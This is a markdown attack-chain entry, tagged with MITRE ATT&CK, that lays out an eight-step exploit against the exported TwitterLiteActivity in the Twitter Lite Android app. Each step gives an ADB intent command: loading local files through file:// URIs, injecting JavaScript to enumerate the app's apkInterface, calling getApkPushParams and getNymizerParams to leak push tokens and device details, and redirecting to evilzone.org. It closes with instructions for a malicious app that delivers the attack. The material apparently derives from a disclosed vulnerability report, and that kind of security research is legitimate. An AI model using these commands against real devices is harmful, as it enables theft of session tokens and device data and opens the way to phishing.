

---
tags:
  - android
  - webview
  - javascript-injection
  - local-file-inclusion
  - open-redirect
  - token-theft
  - session-hijacking
type: attack_chain
tools:
  - '[[tools/ADB-Android-Debug-Bridge]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Android
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - >-
    [[procedures/Launch-TwitterLiteActivity-with-File-URI-for-Local-File-Access]]
  - '[[procedures/Inject-JavaScript-via-javascript-URI-in-TwitterLiteActivity]]'
  - '[[procedures/Trigger-Open-Redirect-via-http-URI-in-TwitterLiteActivity]]'
  - >-
    [[procedures/Enumerate-Window-Properties-via-JavaScript-Injection-in-TwitterLiteActivity]]
  - >-
    [[procedures/Enumerate-apkInterface-Properties-via-JavaScript-Injection-in-TwitterLiteActivity]]
  - >-
    [[procedures/Invoke-apkInterface-getApkPushParams-for-Token-Theft-via-JavaScript-Injection]]
  - >-
    [[procedures/Invoke-apkInterface-getNymizerParams-for-Device-Info-Leak-via-JavaScript-Injection]]
  - >-
    [[procedures/Launch-Attack-from-Malicious-App-Targeting-TwitterLiteActivity]]
step_count: 8
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
  - '[[File and Directory Discovery]]'
  - '[[Credentials In Files]]'
updated_at: '2025-12-14T17:24:34.663Z'
description: >-
  Multi-stage attack exploiting an exported Android activity in Twitter Lite to
  load arbitrary URIs, leading to local file access, JavaScript execution for
  interface enumeration and token theft, and open redirects to malicious sites.
skill_level: intermediate
impact_level: high
id: 95e576fa-281f-4cf4-9bcb-3550a78605ec
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
  - '[[File and Directory Discovery]]'
  - '[[Credentials In Files]]'
---
# Exported Twitter Lite Android Activity Enabling Local File Theft, JavaScript Injection, Open Redirects, and Session Token Exfiltration

Multi-stage attack chain exploiting the exported TwitterLiteActivity in the Twitter Lite Android app, which lacks validation of incoming intent data URIs. This allows external apps or ADB to pass file://, javascript://, and http:// schemes, enabling local file theft, JavaScript execution to access internal app interfaces like apkInterface for stealing session tokens and device information, and open redirects to malicious sites. The attack can lead to UXSS, token theft, or further exploitation like RCE via a malicious app without needing ADB in production scenarios.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 8 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/ADB-Android-Debug-Bridge]]

### Target Environment

- Android device with Twitter Lite app installed (com.twitter.android.lite)
- ADB enabled for debugging (or a malicious app for non-ADB exploitation)
- Access to device storage (e.g., /sdcard/ for file tests)

### Initial Access Requirements

- Physical or USB access to Android device for ADB
- For malicious app: Ability to install and run a custom Android app
- No authentication required due to exported activity

## Detailed Attack Procedures

### Step 1: Launch TwitterLiteActivity with File URI for Local File Access
procedure: [[procedures/Launch-TwitterLiteActivity-with-File-URI-for-Local-File-Access]]

**Objective**: Exploit the lack of scheme validation to load and display content from a local file, enabling theft of sensitive files from accessible directories like /sdcard/.

**Instructions**: Use [[commands/adb-start-twitterlite-with-file-uri]] to send an intent with a file:// URI pointing to a test file.

```bash
adb shell am start -n com.twitter.android.lite/com.twitter.android.lite.TwitterLiteActivity -d "file:///sdcard/BugBounty/1.html"
```

**Expected Output**: The app launches and displays the content of the local HTML file in its WebView.

**Success Indicators**:
- Local file content loads in the Twitter Lite WebView
- No errors or scheme rejection

### Step 2: Inject JavaScript via javascript:// URI
procedure: [[procedures/Inject-JavaScript-via-javascript-URI-in-TwitterLiteActivity]]

**Objective**: Execute arbitrary JavaScript in the app's WebView to interact with internal interfaces, setting up for further enumeration and exploitation.

**Instructions**: Execute [[commands/adb-start-twitterlite-with-javascript-alert]] to inject a simple alert payload.

```bash
adb shell am start -n com.twitter.android.lite/com.twitter.android.lite.TwitterLiteActivity -d "javascript://example.com%0A alert(1);"
```

**Expected Output**: An alert box with '1' appears in the WebView.

**Success Indicators**:
- JavaScript executes without validation errors
- Alert or other JS effects are visible

### Step 3: Trigger Open Redirect via http:// URI
procedure: [[procedures/Trigger-Open-Redirect-via-http-URI-in-TwitterLiteActivity]]

**Objective**: Redirect the WebView to an arbitrary external site, potentially leading to phishing, UXSS, or further attacks.

**Instructions**: Use [[commands/adb-start-twitterlite-with-http-redirect]] to load a malicious external URL.

```bash
adb shell am start -n com.twitter.android.lite/com.twitter.android.lite.TwitterLiteActivity -d "http://evilzone.org"
```

**Expected Output**: The WebView loads and displays the content from evilzone.org.

**Success Indicators**:
- External site loads without restrictions
- No URL whitelisting enforced

### Step 4: Enumerate Window Properties via JavaScript Injection
procedure: [[procedures/Enumerate-Window-Properties-via-JavaScript-Injection-in-TwitterLiteActivity]]

**Objective**: Discover internal JavaScript interfaces exposed by the app, such as apkInterface, for deeper exploitation.

**Instructions**: Run [[commands/adb-enumerate-window-properties-in-twitterlite]] to execute JS that lists window object properties.

```bash
adb shell am start -a "android.intent.action.VIEW" -n com.twitter.android.lite/com.twitter.android.lite.TwitterLiteActivity -d "javascript://google.com%0Ajavascript:Object.getOwnPropertyNames(window).forEach(function(v%2C%20x)%20%7B%20document.writeln(v)%3B%20%7D)%3B"
```

**Expected Output**: A list of window properties is written to the document, including 'apkInterface'.

**Success Indicators**:
- 'apkInterface' appears in the output list
- No JS execution blocks

### Step 5: Enumerate apkInterface Properties via JavaScript Injection
procedure: [[procedures/Enumerate-apkInterface-Properties-via-JavaScript-Injection-in-TwitterLiteActivity]]

**Objective**: Identify exploitable methods on the apkInterface, such as getApkPushParams and getNymizerParams, for data theft.

**Instructions**: Execute [[commands/adb-enumerate-apkinterface-properties-in-twitterlite]] to list properties of the apkInterface.

```bash
adb shell am start -a "android.intent.action.VIEW" -n com.twitter.android.lite/com.twitter.android.lite.TwitterLiteActivity -d "javascript://google.com%0Ajavascript:Object.getOwnPropertyNames(window.apkInterface).forEach(function(v%2C%20x)%20%7B%20document.writeln(v)%3B%20%7D)%3B"
```

**Expected Output**: Properties like getApkPushParams and getNymizerParams are listed.

**Success Indicators**:
- Methods for data retrieval are exposed
- JS successfully accesses apkInterface

### Step 6: Invoke apkInterface.getApkPushParams for Token Theft via JavaScript Injection
procedure: [[procedures/Invoke-apkInterface-getApkPushParams-for-Token-Theft-via-JavaScript-Injection]]

**Objective**: Steal session tokens and push device information by calling the exposed method.

**Instructions**: Use [[commands/adb-invoke-getapkpushparams-in-twitterlite]] to invoke the method and output the result.

```bash
adb shell am start -a "android.intent.action.VIEW" -n com.twitter.android.lite/com.twitter.android.lite.TwitterLiteActivity -d "javascript://google.com%0Ajavascript:document.write(apkInterface.getApkPushParams())%3B"
```

**Expected Output**: JSON with push token and device info, e.g., {"payload":{"client_application_id":14191373,"push_device_info":{"token":"Removed-XIHCvjwARIg8FL8TYxwJZL-TeN4caodfWnpXvV-Removed-UcglqNuRCuM13MHbDQVRgR"}}}

**Success Indicators**:
- Sensitive token is displayed in the WebView
- JSON payload includes device UDID and session data

### Step 7: Invoke apkInterface.getNymizerParams for Device Info Leak via JavaScript Injection
procedure: [[procedures/Invoke-apkInterface-getNymizerParams-for-Device-Info-Leak-via-JavaScript-Injection]]

**Objective**: Leak additional device details like brand, model, carrier, and OS version.

**Instructions**: Run [[commands/adb-invoke-getnymizerparams-in-twitterlite]] to call the method.

```bash
adb shell am start -a "android.intent.action.VIEW" -n com.twitter.android.lite/com.twitter.android.lite.TwitterLiteActivity -d "javascript://google.com%0Ajavascript:document.write(apkInterface.getNymizerParams());"
```

**Expected Output**: JSON with device info, e.g., {"dev_brand":"xiaomi","dev_model":"Redmi Note 4","dev_carrier":"Jio 4G","os_ver":24}

**Success Indicators**:
- Device identifiers and config are exposed
- No access restrictions on the method

### Step 8: Launch Attack from Malicious App Targeting TwitterLiteActivity
procedure: [[procedures/Launch-Attack-from-Malicious-App-Targeting-TwitterLiteActivity]]

**Objective**: Demonstrate real-world exploitation without ADB by creating a malicious app that sends intents to the vulnerable activity.

**Instructions**: In a custom Android app, create an Intent with the activity class and malicious javascript:// URI, then call startActivity(intent).

**Expected Output**: Twitter Lite launches and executes the injected JS or loads the file/redirect as per the URI.

**Success Indicators**:
- Malicious app triggers the vulnerability seamlessly
- Data theft or redirect occurs from app context

## Attack Chain Summary

### Key Achievements

1. Local file access from external intents
2. Arbitrary JS execution exposing internal app interfaces
3. Theft of session tokens and device information
4. Open redirects for phishing or UXSS

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[JavaScript]] JavaScript
- [[File and Directory Discovery]] File and Directory Discovery
- [[Credentials In Files]] Unsecured Credentials: Credentials In Files

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution
- [[Collection]] Collection

---

*Last updated: 2023-10-01T00:00:00Z*
